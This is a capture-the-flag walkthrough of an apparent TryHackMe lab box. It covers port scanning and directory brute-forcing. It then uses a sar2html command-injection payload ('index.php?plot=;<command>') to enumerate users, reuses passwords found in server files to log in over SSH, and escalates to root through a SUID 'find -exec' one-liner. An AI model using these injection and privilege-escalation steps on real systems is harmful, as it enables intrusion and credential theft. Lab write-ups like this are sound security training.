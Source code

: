 # recon.
Like always, start with nmap. I use my own tool to automate nmap scan, check it out [pymap](https://github.com/gu2rks/pymap)
```console
$ python3 pymap.py -t $IP --all
```
there are 4 open port:
- 21/tcp    open  ftp
- 80/tcp    open  http
- 10000/tcp open  snet-sensor-mgmt
- 55007/tcp open  ssh


## port 21
from nmap scan you should note that FTP is open for Anonymous log in. (`ftp-anon: Anonymous FTP login allowed (FTP code 230)`) so let check it out:
```console
kali@kali:~/THM/boiler$ ftp $IP 
Connected to 10.10.108.17.
220 (vsFTPd 3.0.3)
Name (10.10.108.17:kali): Anonymous
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 .
drwxr-xr-x    2 ftp      ftp          4096 Aug 22  2019 ..
-rw-r--r--    1 ftp      ftp            74 Aug 21  2019 .info.txt
226 Directory send OK.
ftp> get .info.txt
local: .info.txt remote: .info.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for .info.txt (74 bytes).
226 Transfer complete.
74 bytes received in 0.00 secs (29.5565 kB/s)
```
now back to kali:
```
kali@kali:~/THM/boiler$ cat .info.txt 
Whfg jnagrq gb frr vs lbh svaq vg. Yby. Erzrzore: Rahzrengvba vf gur xrl!
```
from the looks of the cipher, you can already tell that it is a substitution cipher. substitution cipher works in a way that it "rotate" each character. 

Any how the message was
```
Just wanted to see if you find it. Lol. Remember: Enumeration is the key!
```
seem like we got trolled by the room creater... so let move on to the next port.

## Port 80
Like always start fire up ur gobuster or ur favorite web directory brute forcing tool
```console
$ gobuster dir -u http://$IP/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
While you are waiting for the result, go explore the web (happy path). I found something in  `robots.txt`
```
User-agent: *
Disallow: /

/tmp
/.ssh
/yellow
/not
/a+rabbit
/hole
/or
/is
/it

079 084 108 105 077 068 089 050 077 071 078 107 079 084 086 104 090 071 086 104 077 122 073 051 089 122 085 048 077 084 103 121 089 109 070 104 078 084 069 049 079 068 081 075
```
you can try to decryp the cipher if you want to but I can sell you direcly that you will not get anything out of it. Seem like the `MrSeth6797` (room creator) love to troll us.


anyhow I found out that the web is hosting `/joomla` There is nothing much on the blog. only one post. so let dig more by running gobuster at `/joomla`
```console
$ gobuster dir -u http://$IP/joomla -w /usr/share/SecLists/Discovery/Web-Content/big.txt -x .php,.txt,.html -t 54
```
here is what I found
```
/LICENSE.txt (Status: 200)
/README.txt (Status: 200)
/_a______ (Status: 301)
/_d_____ (Status: 301)
/_f___ (Status: 301)
/_t___ (Status: 301)
/administrator (Status: 301)
/bin (Status: 301)
/build (Status: 301)
/cache (Status: 301)
/cli (Status: 301)
/components (Status: 301)
/configuration.php (Status: 200)
/htaccess.txt (Status: 200)
/images (Status: 301)
/includes (Status: 301)
/index.php (Status: 200)
/installation (Status: 301)
/language (Status: 301)
/layouts (Status: 301)
/libraries (Status: 301)
/media (Status: 301)
/modules (Status: 301)
/plugins (Status: 301)
/templates (Status: 301)
/tests (Status: 301)
/tmp (Status: 301)
/~ww__ (Status: 301)
```
This is my 3rd time working with Joomla. By looking at the results, There is some dikectory that is looks juicy.
1. /administrator: admin login page
2. /_a______ (Status: 301)
3. /_da____ (Status: 301)
4. /_f___ (Status: 301)
5. /_t__ (Status: 301)
6. /~ww__ (Status: 301)


number 2-6 are directories that not included in joomla by defualt which is worth checking.

Since im already done with this room, I can tell you direcly that some of them are just a rabbit hole, `MrSeth6797` just messing with us.

anyhow you will find the "rigth" one on the list above? how do I know that?
1. There is something that it is not there by defualt
2. I found an exploit after I google about it


So the site run `sar2html`. In short, Sar2html is web based frontend for performance monitoring. It converts sar binary data to graphical format and keep historical data in it's library. if you search 

if you search for `sar2html exploit` you will find a RCE exploit which we can use to for farther attack. you can find the exploit [here](https://www.exploit-db.com/exploits/47204)

```
In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```
so the plan is us this to enumerate the server and hope that we might find some juicy info such as, usernames/password.

so I started with checking for users by checking if it work by execute `whoami`. **BOOM** ! it works !! then I execute `/index.php?plot=;ls ../../../../../home/` the figure below show the result.

![whoami](../pic/Screenshot%202020-08-07%20at%2019.42.36.png)
![users](../pic/Screenshot%202020-08-07%20at%2019.43.14.png)

I found a juicy at `www-data` home directory which contain **Basterd's password**. **Hint**:
<details>log.txt</details>

## foot hold
now ssh to the victim server using Basterd credential. dont forget that ssh is on port 5507. here is what you will find on Basterd home directory
```
$ ls -la
total 16
drwxr-x--- 3 basterd basterd 4096 Aug 22  2019 .
drwxr-xr-x 4 root    root    4096 Aug 22  2019 ..
-rwxr-xr-x 1 stoner  basterd  699 Aug 21  2019 backup.sh
-rw------- 1 basterd basterd    0 Aug 22  2019 .bash_history
drwx------ 2 basterd basterd 4096 Aug 22  2019 .cache
```
You should already tell that `backup.sh` is juicy!!
1. stoner is the owner of the files.
2. the name of the file
3. it is a shell/bash script

Examine `backup.sh`, You will find Stoner's password. Back to kali, ssh to the victim server again but using Stoner's credential this time.
```console
stoner@Vulnerable:~$ ls -la
total 20
drwxr-x--- 4 stoner stoner 4096 Aug  7 21:12 .
drwxr-xr-x 4 root   root   4096 Aug 22  2019 ..
drwx------ 2 stoner stoner 4096 Aug  7 21:12 .cache
drwxrwxr-x 2 stoner stoner 4096 Aug 22  2019 .nano
-rw-r--r-- 1 stoner stoner   34 Aug 21  2019 .secret
```
now grep the user flag (.secret)

# root
You can start with `sudo -l` if you wanna but I can tell you direcly it is just another rabbit whole. `MrSeth6797` he did it again...

The next step is looking for `SUID`, if you dont know what `SUID` is, pls do some research by youself. Anyway, I use suid3num.py to enumerate `SUID`. You can find the tool on github [link](https://github.com/Anon-Exploiter/SUID3NUM). Tranfer the script to victim server and run it
```
[#] SUID Binaries in GTFO bins list (Hell Yeah!)
------------------------------
/usr/bin/find -~> https://gtfobins.github.io/gtfobins/find
------------------------------
```
**MashaAllah**, let use it to get root flag!!
```console
stoner@Vulnerable:~$ find *.py -exec whoami \;
root
stoner@Vulnerable:~$ find *.py -exec ls /root/ \;
root.txt
```
